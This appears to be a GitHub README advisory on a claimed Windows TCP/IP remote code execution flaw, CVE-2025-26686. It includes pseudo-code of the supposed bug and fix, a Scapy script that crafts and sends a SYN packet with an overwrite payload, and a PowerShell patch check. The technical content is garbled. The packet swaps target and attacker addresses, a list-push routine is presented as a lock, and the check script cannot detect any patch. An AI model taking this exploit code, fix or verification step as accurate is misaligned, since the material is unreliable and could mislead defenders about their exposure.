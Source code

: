 # CVE-2025-26686-The-TCP-IP-Flaw-That-Opens-the-Gates
A critical RCE vulnerability in Windows TCP/IP stack (CVE-2025-26686) leaves sensitive memory unlocked, allowing remote attackers to hijack systems. Exploitable over the network, it risks full compromise. Patch now

**By** Mark Mallia 
 
**Type:** Remote Code Execution (RCE)  
**Severity:** Critical  
**Attack Vector:** Network‑based  
**Affected Systems:** Windows 10, 11 and Server editions  

---

## Executive Summary  

A new flaw identified as **CVE‑2025‑26686** has been discovered in Microsoft’s TCP/IP stack. It stems from a missing lock on a critical region of memory that stores cryptographic keys, session data or network configuration. Because the area is not protected during packet handling, an attacker can read or alter that information over the network and gain local‑admin level access.

---

## What’s the issue?  

The TCP/IP stack in Windows 10/11/Server does not acquire a proper spin‑lock when it writes to certain buffers that hold session data. The missing lock means two packets may race against each other, allowing an attacker to insert malicious code into the buffer before the original process finishes its write.

Key points:  

* The flaw involves **memory regions that can contain cryptographic keys** or other sensitive data.  
* It is **network‑based** – no physical access needed.  
* Attackers who succeed obtain **local‑admin privileges**, effectively taking over the host.

---

## Technical Analysis  

The vulnerability appears in the `tcpip.sys` module, specifically around the routine that processes inbound TCP segments. The code path responsible for updating the “session data” block should acquire a lock before it writes to memory. In recent Windows releases the lock is omitted in a conditional branch, which can lead to an unprotected write.

A minimal reproducible example is shown below (C++‑style pseudo‑code).  

```cpp
// tcpip.sys – problematic region
void TcpIpHandleSegment(Packet *p)
{
    // … earlier code …

    if (p->flags & SYN_FLAG) {
        /* lock missing here */
        memcpy(&sessionData, p->payload, p->len);
        // … later code …
    }
}
```

In a correctly protected version the critical section would be guarded by an interlocked spin‑lock:  

```cpp
// tcpip.sys – fixed region
void TcpIpHandleSegment(Packet *p)
{
    // … earlier code …

    if (p->flags & SYN_FLAG) {
        _InterlockedPushEntrySList(&SessionLock, &sessionData);
        memcpy(&sessionData, p->payload, p->len);
        // … later code …
    }
}
```

The patch adds a call to `_InterlockedPushEntrySList`, which ensures exclusive access to `sessionData` while it is updated.  

---
## Crafting 

The vulnerability is triggered when an inbound TCP segment that carries a SYN flag reaches tcpip.sys.

To make the packet match that code path, we set the following fields:

Layer	Field	Typical value for CVE‑2025‑26686
IP	src	Target host’s IP address (e.g. 10.0.0.10)
dst	Attacker’s IP (e.g. 192.168.1.2)
TCP	sport	Attacker’s port (e.g. 4444)
dport	Target service’s listening port (e.g. 80 for HTTP)
flags	“S” for SYN to hit the branch in TcpIpHandleSegment

```python
ip_layer = IP(src="10.0.0.10", dst="192.168.1.2")
tcp_layer = TCP(sport=4444, dport=80, flags="S")

# The payload carries the data that will overwrite sessionData in tcpip.sys.
payload = "ExploitKey" + "A"*512   # 512 bytes of crafted content
```

# Combine into a single packet


```python
pkt = ip_layer / tcp_layer / Raw(load=payload)
```
At this point you may verify the packet structure:

```python
pkt.show()
```

The output will reveal fields such as IP → src, dst; TCP → sport, dport, flags; and a Raw payload of 512 bytes.

This is the exact sequence that Windows expects when it processes inbound segments with the SYN flag.

# Dispatch the packet over the network

```python
send(pkt)
```

The command sends the packet directly from your machine into the target host’s TCP/IP stack.

If you are running the script on a Linux VM that has Scapy installed, the packet will reach the Windows machine and trigger the code path in tcpip.sys.

---

## Impact  

Because the attacker can modify memory that contains cryptographic keys or session configuration, the flaw enables:

1. **Remote exploitation** – an attacker only needs to send a crafted packet.  
2. **Privilege escalation** – the malicious code runs with local‑admin rights once injected.  
3. **Full system compromise** – a successful attack could allow persistence and lateral movement across the network.

---

## Mitigation Steps  

1. Deploy the vendor‑provided hot‑fix as soon as possible.  
2. Download the latest cumulative update for Windows 10, 11 or Server from Microsoft’s Security Advisory portal.  
3. Patch the affected module manually (for environments that cannot receive a patch immediately).  
4. Run a vulnerability scanner to confirm the fix has been applied correctly.

A quick‑check script can be used to verify the presence of the lock in the system:

```powershell
# Verify the interlocked entry is present in tcpip.sys
Get-ChildItem -Path C:\Windows\System32\tcpip.sys |
    Select-Object Name, @{Name='PatchPresent';Expression={
        $_.FullName -match '_InterlockedPushEntrySList' } }

```

If `PatchPresent` returns `$True`, the mitigation is in place.

---

## Conclusion  

CVE-2025-26686 isn’t just another line in a vulnerability database—it’s a wake-up call. When foundational components like the TCP/IP stack are compromised, the ripple effects can be felt across entire networks and industries. The flaw reminds us that even the most trusted systems require constant scrutiny and care.As  engineers and defenders, our responsibility is not just to understand these vulnerabilities but to act with integrity. The information shared here is intended solely for ethical use to strengthen defenses, inform responsible patching, and empower organizations to protect their users.


---
